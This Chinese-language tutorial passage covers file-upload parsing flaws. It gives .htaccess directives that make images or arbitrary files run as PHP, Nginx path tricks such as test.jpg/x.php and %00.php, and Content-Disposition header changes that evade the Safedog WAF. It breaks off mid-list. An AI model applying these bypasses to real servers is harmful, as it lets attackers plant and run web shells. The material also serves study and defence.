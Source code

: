 ## .htaccess解析漏洞：

.htaccess是apache服务器中的一个配置文件，它负责相关目录下的网页配置，通过.htaccess文件可以帮我们实现网页301重定向（永久），自定义404错误页面，改变文件拓展名、允许/组织特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

如果用户可以自定义上传.htaccess文件，那么

**绕过方式**：

```
<FilesMatch "shell.gif">
SetHandler application/x-httpd-php
</FilesMatch>
//使Apache把shell.jpg文件解析为php文件
SetHandler application/x-httpd-php 
//使得任意文件都以php文件解析
AddType application/x-httpd-php xxx
//使该.htaccess文件所在目录及其子目录中的后缀为.xxx的文件被Apache当做php文件
```

## Nginx解析漏洞：

解析：(任意文件名)/(任意文件名).php | (任意文件名)%00.php

描述：目前Nginx主要有这两种漏洞，一个是对任意文件名，在后面添加/任意文件名.php

的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。

还有一种是对低版本的Nginx可以在任意文件名后面添加%00.php进行解析攻击。

# 对WAF的绕过姿势:

## 安全狗绕过

**绕过思路：**

1.对文件的内容，数据，数据包进行处理。

```
Content-Disposition: form-data; name=“upload_file”; filename=“info.php” 
将form-data;修改为~form-data;
```

2.通过大小写进行绕过：

```
Content-Disposition:form-data;name=“upload_file”; file=“info.php” Content-Type: application/octet-stream
将Content-Disposition修改为content-disposition
将form-data修改为Form-data
将Content-Type修改为content-Type
```

3.删减空格进行绕过：
